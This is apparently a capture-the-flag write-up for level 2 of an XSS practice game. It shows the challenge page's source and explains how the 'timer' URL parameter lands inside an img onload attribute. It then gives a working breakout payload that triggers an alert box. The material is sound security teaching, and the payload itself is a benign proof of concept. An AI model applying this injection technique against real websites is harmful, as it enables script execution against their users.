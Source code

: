 ### XSSGame Level 2 Writeup 
![Image](https://github.com/user-attachments/assets/c79e7be3-760f-46be-aa9b-29e4a7612a90)
 


When I first opened the challenge, I noticed an **input field** that takes a number, along with a **"Create Timer"** button.  
I clicked the button to understand how it works and then checked the **page source code**.

Here’s what I found:

```html
<html>
  <head>
    <script src="/static/js/js_frame.js"></script>
    <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() {
          window.confirm("Time is up!");
          window.loading.style.display = 'none';
          window.message.innerHTML = '<a href="?">Go back</a> to the timer setup page';
        }, seconds * 1000);
      }
    </script>
  </head>
  <body style="background-color: white;">
    <center>
      <h1 style="font-family: serif">
        webtim<span style="color: teal">r</span> <span style="color: green">pro</span>
      </h1>
      <img id="loading" src="/static/img/loading.gif" style="width: 50%" onload="startTimer('3');" />
      <br>
      <div id="message">Your timer will execute in 3 seconds.</div>
  </center>
  </body>
</html>
```

I noticed that the value we enter ends up inside the `onload` attribute of the `<img>` tag, like this:

```html
onload="startTimer('3');"
```

This value is taken from the `timer` parameter in the **URL**.

So this is the injection point where we can place our payload.

After a few attempts, I found that this payload worked:

```text
3');alert('1
```

This results in:

```html
onload="startTimer('3');alert('1')"
```

And it successfully triggers an **alert box**, confirming that the XSS is exploitable through the `onload` attribute.

![Image](https://github.com/user-attachments/assets/21a25d42-9287-4f07-8015-2da5b0998c51)

---
